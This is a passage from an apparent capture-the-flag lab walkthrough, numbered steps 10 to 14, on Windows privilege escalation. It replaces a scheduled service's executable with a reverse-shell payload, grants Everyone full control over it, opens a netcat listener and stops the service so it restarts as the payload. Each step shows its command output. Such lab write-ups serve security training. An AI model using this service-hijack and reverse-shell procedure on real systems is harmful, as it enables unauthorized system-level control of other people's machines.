 10. `move <PAYLOAD> <BINARY_PATH_NAME TARGET EXECUTABLE>` from the compromised Windows machine to move our previously downloaded reverse shell payload executable into our current working directory to replace the previous `BINARY_PATH_NAME` executable with our payload
```PowerShell
C:\PROGRA~2\SYSTEM~1>move C:\Users\thm-unpriv\ReverseShell.exe WService.exe
        1 file(s) moved.
```

11. `dir` from the compromised Windows machine to list the files and directories that are in our current working directory to ensure that our payload was successfully transfered and renamed to match the `BINARY_PATH_NAME`'s executable, which it did
```PowerShell
C:\PROGRA~2\SYSTEM~1>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\PROGRA~2\SYSTEM~1

[...]
08/04/2023  03:56 PM            48,640 WService.exe
03/25/2018  10:58 AM            98,720 WService.exe.bkp
[...]
              39 File(s)     11,193,573 bytes
               3 Dir(s)  14,755,926,016 bytes free
```

12. `icacls <PAYLOAD> /grant Everyone:F` from the compromised Windows machine to grant full control (read, write, and execute permissions) to the "Everyone" group for our payload
```PowerShell
C:\PROGRA~2\SYSTEM~1>icacls WService.exe /grant Everyone:F
processed file: WService.exe
Successfully processed 1 files; Failed processing 0 files
```

13. `nc -lvnp <PORT NUMBER>` from our attack machine to open up a netcat listener using the open port that we specified in our payload that'll listen for any inbound connection
```Bash
root@ip-10-10-6-207:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

14. `sc stop <SERVICE>` from the compromised Windows machine to stop our target service 
```PowerShell
C:\PROGRA~2\SYSTEM~1>sc stop WindowsScheduler

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3508
        FLAGS              :
```
